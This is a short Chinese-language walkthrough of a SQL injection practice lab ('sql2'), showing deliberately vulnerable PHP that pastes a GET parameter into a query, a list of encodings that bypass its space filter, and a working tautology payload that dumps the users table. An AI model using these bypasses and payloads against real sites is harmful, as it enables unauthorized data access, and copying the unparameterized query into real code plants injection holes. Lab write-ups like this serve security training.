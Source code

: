 # sql2

进入example2.php

源码
```php
<?php
  require_once('../header.php');
  require_once('db.php');

        if (preg_match('/ /', $_GET["name"])) {
                die("ERROR NO SPACE");
        }
        $sql = "SELECT * FROM users where name='";
        $sql .= $_GET["name"]."'";

        $result = mysql_query($sql);
        if ($result) {
                ?>
                <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
                <?php
                while ($row = mysql_fetch_assoc($result)) {
                        echo "<tr>";
                        echo "<td>".$row['id']."</td>";
                        echo "<td>".$row['name']."</td>";
                        echo "<td>".$row['age']."</td>";
                        echo "</tr>";
                }
                echo "</table>";
        }
  require '../footer.php';
?>
```

这里使用了**preg_match('/ /')**来过滤了空格
可以使用以下方式来绕过过滤
>  * %09    TAB键
* %0a    新建一行
* %0c    新的一页
* %0d    return功能
* %0b    TAB键(垂直)
* %a0    空格
* /**/    多行注释

| 请求方式 | 过滤方式 | 注入方式 | 闭合方式 |
| -------- | -------- | -------- | -------- |
| GET      | 过滤空格 | 万能密码 | 单引号'  |

payload
```sql
example2.php?name='%0bor%a01=1%23
```
![img](../../../image/sqli/1978951168595.png)
拿到数据

过关！
